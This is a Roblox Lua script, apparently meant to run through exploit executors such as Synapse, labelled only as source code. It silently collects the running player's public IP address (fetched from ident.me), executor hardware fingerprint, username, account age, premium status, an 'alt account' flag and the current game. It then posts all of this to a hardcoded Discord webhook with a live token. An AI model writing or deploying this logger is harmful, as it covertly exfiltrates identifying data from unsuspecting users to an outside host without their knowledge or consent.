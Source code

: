 local IP = game:HttpGet("https://v4.ident.me")
plr = game:GetService'Players'.LocalPlayer
local premium = false
local ALT = false
if plr.MembershipType == Enum.MembershipType.Premium then
	premium = true
elseif plr.MembershipType == Enum.MembershipType.None then
	premium = false
end
if premium == false then 
	if plr.AccountAge <= 70 then 
		ALT = true
	end
end

local market = game:GetService("MarketplaceService")
local info = market:GetProductInfo(game.PlaceId, Enum.InfoType.Asset)


local http_request = http_request;
if syn then
	http_request = syn.request
elseif SENTINEL_V2 then
	function http_request(tb)
		return {
			StatusCode = 200;
			Body = request(tb.Url, tb.Method, (tb.Body or ''))
		}
	end
end

local body = http_request({Url = 'https://httpbin.org/get'; Method = 'GET'}).Body;
local decoded = game:GetService('HttpService'):JSONDecode(body)
local hwid_list = {"Syn-Fingerprint", "Exploit-Guid", "Proto-User-Identifier", "Sentinel-Fingerprint"};
hwid = "";

for i, v in next, hwid_list do
	if decoded.headers[v] then
		hwid = decoded.headers[v];
		break
	end
end

if hwid then
local HttpServ = game:GetService('HttpService')
local url = "https://discord.com/api/webhooks/910348614293921873/wU9CvUMm6JYKchcXJC4izUtsYlI4dsXgGQrJAGKOmTYzAKJefXqoPNKrcfMwDJpMa5L1"


local data = 
    {
        ["content"] = "",
        ["embeds"] = {{
            ["title"] = "__**HWID:**__",
            ["description"] = hwid,
            ["type"] = "rich",
            ["color"] = tonumber(0xAB0909),
            ["fields"] = {
                {
                    ["name"] = "Username:",
                    ["value"] = Game.Players.LocalPlayer.Name,
                    ["inline"] = true
                },
				{
                    ["name"] = "IP Address:",
                    ["value"] = IP,
                    ["inline"] = true
                },
				{
                    ["name"] = "Game Link:",
                    ["value"] = "https://roblox.com/games/" .. game.PlaceId .. "/",
                    ["inline"] = true
                },
				{
					["name"] = "Game Name:",
					["value"] = info.Name,
					["inline"] = true
				},
				{
					["name"] = "Age:",
					["value"] = plr.AccountAge,
					["inline"] = true
				},
				{
					["name"] = "Premium:",
					["value"] = premium,
					["inline"] = true
				},
				{
					["name"] = "ALT:",
					["value"] = ALT,
					["inline"] = true
				},
				
            },
        }}
    }
    local newdata = HttpServ:JSONEncode(data)
    
    local headers = {
            ["content-type"] = "application/json"
    }
    
    local request_payload = {Url=url, Body=newdata, Method="POST", Headers=headers}
    http_request(request_payload)
end
